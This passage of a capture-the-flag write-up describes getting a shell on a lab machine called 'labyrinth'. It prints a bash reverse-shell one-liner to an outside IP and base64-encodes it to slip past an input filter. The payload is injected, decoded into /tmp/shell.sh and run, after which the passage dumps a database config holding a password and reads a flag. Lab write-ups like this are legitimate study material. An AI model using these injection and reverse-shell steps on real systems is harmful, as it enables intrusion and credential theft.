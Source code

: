`` `bash -i >& /dev/tcp/10.8.226.203/2311 0>&1` ``

That didnt work...there must be a sort of filter

base64 encoding the payload it is

`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx`

Then injecion...

we decode it on server side and write it to shell.sh

`` `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx | base64 -d | tee /tmp/shell.sh` ``

```
bash -i >& /dev/tcp/10.8.226.203/2311 0>&1
```

Next we run that shell
`` `/bin/bash /tmp/shell.sh` ``

And we are in

`cat dbConnect.php`

```
<?php

$servername = "localhost";
$db = "labyrinth";
$usr = "root";
$pwd = "";
//$pwd = "bQXHS5KnfGAHaa383nFjT42AUMyWb";
try {
	$conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


} catch (PDOException $e) {
	die();
}

?>
```

lol no password That might always be good to know

```
daemon@labyrinth:/home/user$ cat flag.txt
cat flag.txt

flag #3
fla9{the_minotaur_was_just_a_hipster}
```

## Privilege Escalation
